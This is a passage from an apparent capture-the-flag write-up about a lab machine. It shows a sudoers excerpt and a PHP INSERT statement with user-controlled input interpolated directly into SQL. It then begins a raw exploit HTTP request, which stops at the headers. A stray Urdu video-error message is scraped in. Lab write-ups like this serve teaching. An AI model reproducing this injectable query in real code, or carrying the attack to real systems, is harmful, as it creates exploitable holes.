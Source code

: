    # Members of the admin group may gain root privileges
    %admin ALL=(ALL) ALL

    # Allow members of group sudo to execute any command
    %sudo   ALL=(ALL:ALL) ALL

    # See sudoers(5) for more information on "#include" directives:

    #includedir /etc/sudoers.d
    # Allow manual backups of access logs as needed
    m4lwhere ALL=(root) /opt/scripts/access_backup.sh



It has removed these defaults.

### Unintended SQL Injection

[George Koniaris](https://gkoniaris.gr/) pointed out this SQL injection
in the `INSERT` statement in `files.php`. [This
video](https://www.youtube.com/watch?v=s4WdUp3s0dE) walks through how to
find and exploit it:


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=s4WdUp3s0dE){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

The vulnerable code is:



    $sql = "INSERT INTO files(name, size, data, user) VALUES('{$fileName}', '{$fileSize}', '{$fileData}', '{$_SESSION['user']}')";
    $db = connectDB();
    $result = $db->query($sql);



Where I can control `filename`. My final payload puts the SQL injection
into the `filename` attribute:



    POST /files.php HTTP/1.1
    Host: 10.10.11.104
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
    Accept: text.md,application/.md+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Content-Type: multipart/form-data; boundary=---------------------------81606610532534972821053179055
    Content-Length: 335
    Origin: http://10.10.11.104
    Connection: close
    Referer: http://10.10.11.104/files.php
    Cookie: PHPSESSID=mdecrekdk0rlrjcs724posb8oh
    Upgrade-Insecure-Requests: 1
